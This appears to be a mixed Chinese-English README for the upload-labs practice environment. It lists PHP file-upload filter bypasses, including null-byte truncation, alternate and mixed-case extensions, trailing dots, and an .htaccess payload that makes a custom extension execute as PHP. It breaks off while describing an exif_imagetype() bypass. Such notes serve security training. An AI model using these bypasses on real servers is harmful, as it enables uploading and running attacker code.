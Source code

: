 # 集成环境 引用自

`https://www.github.com/c0ny1/upload-labs`

# Resources references

`https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload`

# Some common bypass techniques in php

## 1.文件名截断方式

%00    0x00, 如 ".php%00.jpg" ".php\x00.jpg"

## 2.不流行的后缀名 以及大小写欺骗

".phpt",".php5",".php4",".php3",".php2",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2" 等等

## 3.空白符欺骗, 末尾加.

".php " ".php." 等等. 操作系统保存文件的时候, 会自动清除末尾的.

## 4.上传 .htaccess 文件，修改增加可执行文件后缀

".htaccess files provide a way to make configuration changes on a per-directory basis."
You can read more here : https://httpd.apache.org/docs/2.4/en/howto/htaccess.html

```
.htaccess
# Say all file with extension .php16 will execute php
AddType application/x-httpd-php .php16         
# Active specific encoding (you will see why after :D)																									 
php_value zend.multibyte 1                    
# Detect if the file have unicode content
php_value zend.detect_unicode 1                            
# Display php errors|
php_value display_errors 1
```

### 4.2上传 .htaccess 文件 突破 exif_imagetype() 限制

The first trick here is to find a way to bypass image checker. How would it be possible to send our .htaccess to pass through exif_imagetype() protection. 
The first think is to read the php doc to understand the function : 
http://php.net/manual/en/function.exif-imagetype.php

16	IMAGETYPE_XBM
